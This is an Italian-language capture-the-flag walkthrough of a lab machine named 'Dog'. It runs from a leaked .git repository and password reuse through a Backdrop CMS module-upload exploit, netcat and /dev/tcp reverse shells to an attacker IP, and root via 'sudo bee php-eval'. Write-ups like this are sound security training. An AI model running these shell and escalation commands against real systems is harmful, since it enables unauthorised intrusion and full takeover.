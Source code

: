 # 🐶 Dog CTF - Walkthrough

## 🔍 Ricognizione

Ho iniziato con una scansione **Nmap** per individuare le porte aperte e i servizi attivi sulla macchina target.

```bash
nmap -sC -sV -A 10.10.11.58
```

I risultati hanno mostrato due porte aperte:

- **Porta 22** → SSH
- **Porta 80** → HTTP

Durante la scansione, ho notato la presenza di una cartella `.git`, il che suggerisce che il sito web potrebbe avere un repository Git accessibile.

## 📂 Recupero del Repository Git

Utilizzando `git-dump`, ho scaricato il contenuto del repository presente nella cartella `.git`.

All'interno del repository, ho individuato un file `settings.php`, che conteneva una **password**.

## 🔎 Identificazione di un Utente

Dopo aver trovato la password, ho cercato un possibile username. Esplorando il sito sulla porta 80, ho individuato un nome utente, ma non era associato alla password trovata.

Ho notato che le email degli utenti seguivano il formato `@dog.htb`, quindi ho eseguito una ricerca mirata all'interno del repository Git:

```bash
grep "@dog.htb" -r .
```

Questa ricerca ha rivelato l'utente **tiffany**. Ho provato ad accedere con la password trovata in `settings.php` e sono riuscito a entrare nel sistema.

## 🔥 Exploit per Backdrop CMS

Dopo ulteriori analisi, ho scoperto che il sito web utilizzava **Backdrop CMS**, e ho trovato un exploit disponibile su **Exploit-DB**:

🔗 [Backdrop CMS Exploit](https://www.exploit-db.com/exploits/52021)

Questo exploit consente di creare un modulo personalizzato che permette l'esecuzione di codice arbitrario.

Per creare il modulo ho utilizzato due file:

- `shell.info`
- `shell.php`

Questi file sono stati compressi in un archivio `.tar.gz` e caricati nel CMS.

Dopo l'installazione del modulo, ho navigato nella sezione **modules** ed eseguito `shell.php`, ottenendo l'esecuzione di comandi bash sul server.

## 🐚 Ottenere una Shell

Per stabilire una **reverse shell**, ho avviato un listener sulla mia macchina:

```bash
nc -lvnp 4444
```

E poi, dal server target, ho eseguito:

```bash
busybox nc 10.10.11.102 4444 -e sh
```

Una volta dentro la macchina, ho migliorato l'interattività della shell con:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ho quindi cercato gli utenti presenti nel sistema:

```bash
cat /etc/passwd
```

Ho individuato due utenti con una shell attiva, tra cui **john**. Ho provato ad accedere tramite **SSH**:

```bash
ssh john@10.10.11.58
```

Usando la password trovata in `settings.php`, sono riuscito ad accedere all'utente **john** e recuperare la **flag user.txt**.

## 🚀 Privilege Escalation

Per verificare i permessi di **sudo**, ho eseguito:

```bash
sudo -l
```

Ho scoperto che l'utente **john** poteva eseguire il comando `bee`, che permette di eseguire **PHP** con privilegi elevati.

Dopo alcune ricerche, ho scoperto che `bee` necessitava del percorso di **Backdrop CMS**, che si trovava in `/var/www/html`.

A questo punto, ho eseguito dall'interno del percorso precedentemente trovato:

```bash
sudo bee php-eval 'echo(exec("cat /root/root.txt"))'
```

E ho ottenuto la **flag root.txt**! 🏆

### 🔄 Alternativa: Reverse Shell con Privilegi di Root

Un'alternativa per ottenere una shell con privilegi di root sarebbe stata eseguire:

```bash
sudo bee php-eval 'system("bash -c 'bash -i >& /dev/tcp/MIO_IP/4444 0>&1'")'
```

## 🎯 Conclusione

Questa macchina è stata un'ottima sfida che ha richiesto un mix di tecniche di **enumerazione**, **exploit di Backdrop CMS**, **reverse shell**, e **privilege escalation** con `bee`. 🚀
